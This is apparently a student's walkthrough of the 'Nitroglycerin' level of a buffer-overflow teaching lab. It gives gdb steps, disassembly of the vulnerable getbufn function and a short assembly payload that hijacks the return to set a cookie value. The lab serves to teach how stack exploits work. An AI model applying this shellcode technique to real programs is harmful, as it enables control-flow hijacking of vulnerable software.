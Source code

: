 Level 4: Nitroglycerin
======================

Goal = your exploit code should set your hex cookie as the return value, restore any corrupted state, push the correct return location on the stack, and execute a ret instruction to really return to test().

Type:
```
unix> gdb bufbomb
(gdb) break testn
(gdb) run -nu quinnliu
(gdb) disas
```

Gives you:
```
(gdb) disas
Dump of assembler code for function testn:
   0x08048c1c <+0>:     push   %ebp
   0x08048c1d <+1>:     mov    %esp,%ebp
   0x08048c1f <+3>:     sub    $0x28,%esp
=> 0x08048c22 <+6>:     movl   $0xdeadbeef,-0xc(%ebp)
   0x08048c29 <+13>:    call   0x8048be6 <getbufn>
   0x08048c2e <+18>:    mov    -0xc(%ebp),%edx
   0x08048c31 <+21>:    cmp    $0xdeadbeef,%edx
   0x08048c37 <+27>:    je     0x8048c47 <testn+43>
   0x08048c39 <+29>:    movl   $0x804a098,(%esp)
   0x08048c40 <+36>:    call   0x8048940 <puts@plt>
   0x08048c45 <+41>:    jmp    0x8048c7d <testn+97>
   0x08048c47 <+43>:    cmp    0x804c1e4,%eax
   0x08048c4d <+49>:    jne    0x8048c6d <testn+81>
   0x08048c4f <+51>:    mov    %eax,0x4(%esp)
   0x08048c53 <+55>:    movl   $0x804a0c4,(%esp)
   0x08048c5a <+62>:    call   0x80488e0 <printf@plt>
   0x08048c5f <+67>:    movl   $0x4,(%esp)
   0x08048c66 <+74>:    call   0x80490d4 <validate>
   0x08048c6b <+79>:    jmp    0x8048c7d <testn+97>
   0x08048c6d <+81>:    mov    %eax,0x4(%esp)
   0x08048c71 <+85>:    movl   $0x8049ee7,(%esp)
   0x08048c78 <+92>:    call   0x80488e0 <printf@plt>
   0x08048c7d <+97>:    leave
   0x08048c7e <+98>:    ret
End of assembler dump.
```

Type:
```
(gdb) break getbufn
(gdb) cont
(gdb) disas
```

Gives you:
```
(gdb) disas
Dump of assembler code for function getbufn:
   0x08048be6 <+0>:     push   %ebp
   0x08048be7 <+1>:     mov    %esp,%ebp
   0x08048be9 <+3>:     sub    $0x218,%esp
=> 0x08048bef <+9>:     lea    -0x208(%ebp),%eax
   0x08048bf5 <+15>:    mov    %eax,(%esp)
   0x08048bf8 <+18>:    call   0x8048b4a <Gets>
   0x08048bfd <+23>:    mov    $0x1,%eax
   0x08048c02 <+28>:    leave
   0x08048c03 <+29>:    ret
End of assembler dump.
```

Then type the following into the file "assemblylevel4.s"
```
lea 0x28 (%esp)   , %ebp # restore ebp register contents
movl  $0x2d8cc70c , %eax # returns the cookie value
pushl $0x08048c2e        # return address pointing instruction after getbufn() call in testn()
ret
```

Then type:
```
unix> gcc -m32 -c assemblylevel4.s
unix> objdump -d assemblylevel4.o
```

